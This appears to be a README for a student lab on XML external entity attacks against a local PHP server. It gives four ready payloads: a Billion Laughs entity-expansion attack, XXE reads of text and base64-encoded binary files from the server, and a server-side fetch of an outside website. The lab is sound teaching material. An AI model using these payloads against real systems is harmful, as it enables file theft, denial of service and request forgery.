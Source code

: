 Run the php file in a XAMPP instance. Then issue queries to the server with these XMLs included (only one XML per query, so one example per query), e.g. with Postman.

These examples are intented to be performed live and by the fellow students.

1st task: Billion Laughs attack:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<creds>
  <user>Hello &t2;</user>
  <pass>mypass</pass>
</creds>
```

2nd task: Retrieve a non-binary file from the server's machine:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///[ABSOLUTE PATH TO THE FILE]" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

3rd task: Retrieve a binary file from the server's machine (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///[ABSOLUTE PATH TO THE FILE]">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

4th task: Get the result of a request made by the server to a website (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=http://google.de/">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
